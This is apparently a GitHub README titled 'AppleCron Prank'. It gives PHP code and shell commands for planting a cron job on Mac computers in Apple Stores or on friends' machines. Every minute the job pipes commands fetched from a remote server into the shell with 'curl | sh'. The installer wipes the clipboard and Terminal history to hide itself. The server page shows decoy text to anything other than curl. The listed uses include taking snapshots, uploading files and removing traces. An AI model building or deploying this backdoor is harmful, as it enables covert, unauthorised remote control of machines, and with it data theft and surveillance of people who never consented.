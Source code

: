 #AppleCron Prank

Prank your friends ... or a whole AppleStore.

\#retailpoisoning

Works on MacOSX

May not work in some stores, according to user profiles (ie: La Fnac).


##Original idea

[Antonio Roberts / @hellocatfood](http://www.hellocatfood.com/) suggested an AppleStore prank in [this tweet](https://twitter.com/hellocatfood/status/695605824815788033)


##The idea
Going further, I found out that one can remote control machines using cron jobs, bash scripts and some php pages.

The idea is to create a cron job which will, at a certain interval, retrieve the commands to be executed .

Some examples of what can be achieved:
- Reboot
- Shutdown
- Close Safari or any other app
- Open a web page in the default browser.
- Take a snapshot.
- Upload files
- Add new cron jobs
- Update a cron job
- Remove a cron job
- Remove all cron jobs (in case you want to leave no trace)

##Overview

The first part consist in adding a cron job to a machine.
Then this job will run every x minutes and retrieve the command to be executed.
You can later update the script remotely through a web page and take control/execute scripts on the machine.
The cron job can later be removed remotely, leaving no trace.

Note : I assume that the the index.php is hosted at the root of your domain.
If not the case, change yourdomain.ext for yourdomain.ext/folder in the examples and in the code

###In details

I'm using a multipurpose php page which will serve the scripts.
This page does three things :

1- Send fake information when not accessed via curl
2- Deliver the installation script
3- Deliver other scripts stored in a script.txt file

```
<?php
header("Content-type: text/plain");

// if this page is accessed with anything else than curl, we stop here
if (stripos($_SERVER['HTTP_USER_AGENT'], "curl") === false) {
  exit("Nothing to see here");
} 

// Installation command
if (isset($_GET["i"])) {
       print '(crontab -l; echo "* * * * * curl -sL meth.fr | sh") | crontab -;echo " " | pbcopy;history -c;reset' . PHP_EOL;
}
// Prank commands
else {
    $file = fopen("script.txt", "r") or die("open http://retailpoisoning.tumblr.com/");
    echo fread($file,filesize("script.txt"));
}
?>
```

The installation script is returned when accessing the index.php page via curl, with the ?i argument.
For instance, if the index.php is at the root level of your domain :
yourdomain.ext?i

The command script is returned when accessing the page via curl without any argument :
For instance, if the index.php is at the root level of your domain :
yourdomain.ext

Any request sent from anything else than curl will be filtered out.

##How those scripts get executed on the machine
To achieve that, we use curl and pipe it to either the clipboard or bash

Typing this command ...
```
 curl -sL yourdomain.ext?i | pbcopy
 ```
... will retrieve the following installation script and copy it to the clipboard: 
```
 (crontab -l ; echo " * * * * * curl -s -L yourdomain.ext | sh") | crontab  -; echo "" | pbcopy; history -c; reset
```

Pasting this command will create a cron job executed every minute. The rest of the command deletes the content of the clipboard, clears the Terminal history and resets it.

This cron job will get other scripts (we access the page without the ?i argument) every minute and pipe it to bash for execution.

Starting from here you can do almost anything that doesn't require administrator right (when sudo is not needed), including bash commands, AppleScript commands, etc etc.

The script.txt file can be updated on the fly using the x.php page.
This means once your cron job is running you can change the script (and thus the commands run every minute) from your smartphone.

To avoid this script being indexed or accessible to others, you can set a pass key that you pass as an argument : ie: http://yourdomain.ext/x.php?xyz=abc

The x.php page is just an interface which sends updated commands to the update.php page, in charge of updating the script.txt file :

There are some predefined command but there is also a text field to enter any other command.
Note : you can also update the x.php page if you want to customize it with your own commands and pass key


##How to proceed

First, you need access to the machine to be able to add this cron job.
So head to your local retailler, pick a MacOSX machine and do this :

- Open a Terminal window
- Type this command to copy the install command to the clipboard
```
curl -sL yourdomain.ext?i | pbcopy
```
- Then CTRL+V to execute it
- Exit Terminal
- Move away then use your smartphone (or do it offsite) to launch commands through the x.php page.

Note : be carefull with the command's syntax because when cron cannot execute a script, it will be logged in /var/mail/%username% and thus will leave a trace.

###Remote control

Here is the interface where you can select predefined command or enter new ones.
This will update the script.txt file which will serve the command upon cronjob request.

![Alt text](/screenshot.png?raw=true "Schematic")


##More about cron jobs

Remove all cron jobs
```
crontab -r
```

Append a new job to the existing ones
```
(crontab -l 2>/dev/null; echo " */2 * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace cron jobs with a new one
```
(crontab -l | echo " * * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace a specific job (ie: the one containing "fortune")
```
(crontab -l 2>/dev/null;  echo "*/4 * * * * http://techcrunch.com/2016/01/19/apple-microsoft-samsung-and-other-tech-firms-implicated-in-child-labor-report/ | grep -v 'fortune.com' | crontab -") | crontab -
```

It may be worth having a look at AppleScripting for more fun.


##Further ideas

This can be used:
- regularly push info from your machine to a server.
- track a stolen Mac.
- prank your friends/colleagues


